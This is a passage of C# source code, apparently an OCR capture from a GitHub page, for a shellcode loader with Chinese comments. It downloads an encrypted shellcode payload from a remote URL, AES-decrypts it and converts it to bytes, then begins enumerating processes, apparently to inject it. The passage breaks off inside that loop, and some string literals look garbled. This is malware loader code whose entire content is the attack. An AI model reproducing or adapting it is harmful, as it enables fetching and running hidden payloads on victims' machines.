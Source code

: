 ```c
        );

        public static string key;



        //随机生成32位密钥
        public static void NewKey()
        {
            key = Guid.NewGuid().ToString().Replace("-", "").Substring(0, 32);
        }
        //请求获取shellcode内容
        public static string GetShell(string url)
        {
            url = url + key;
            HttpWebRequest reqContent = (HttpWebRequest)WebRequest.Create(url);//这个是请求的登录接口
            reqContent.Method = "GET";
            reqContent.AllowAutoRedirect = true;//服务端重定向。一般设置false
            reqContent.Timeout = 5000;
            HttpWebResponse respContent = (HttpWebResponse)reqContent.GetResponse();
            StreamReader sr = new StreamReader(respContent.GetResponseStream());
            return sr.ReadToEnd();

        }

        //AES解密
        public static string AesDecrypt(string message, string key)
        {
            using (AesCryptoServiceProvider aesProvider = new AesCryptoServiceProvider())
            {
                aesProvider.Key = Encoding.UTF8.GetBytes(key);
                aesProvider.Mode = CipherMode.ECB;
                aesProvider.Padding = PaddingMode.None;
                using (ICryptoTransform cryptoTransform = aesProvider.CreateDecryptor())
                {
                    byte[] inputBuffers = Convert.FromBase64String(message);
                    byte[] results = cryptoTransform.TransformFinalBlock(inputBuffers, 0, inputBuffers.Length);
                    aesProvider.Clear();
                    string rs = Encoding.UTF8.GetString(results);
                    rs = rs.Replace("", null);
                    rs = rs.Replace("", null);
                    rs = rs.Replace(" ", null);
                    return rs;
                }
            }
        }
       
    public static void runShell(string shellcodes)
        {
            string[] strings = shellcodes.Split(',');
            byte[] shellcode = new byte[strings.Length];
            //逐个字符变为16进制字节数据
            for (int i = 0; i < strings.Length; i++)
            {
                shellcode[i] = Convert.ToByte(strings[i], 16);
            }
            Console.WriteLine(strings.Length);
            try
            {

                Process[] pname = Process.GetProcesses(); //取得所有进程
                foreach (Process name in pname)
```